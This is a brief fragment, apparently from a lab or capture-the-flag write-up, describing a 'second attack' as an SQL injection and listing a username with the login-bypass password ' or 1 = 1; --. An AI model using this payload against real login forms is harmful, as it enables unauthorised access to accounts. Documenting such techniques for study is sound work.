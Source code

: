 # Second attack 

No script needed since it was an sql-injection  <br> 

username = jonas.dahl 
password = ' or 1 = 1; -- 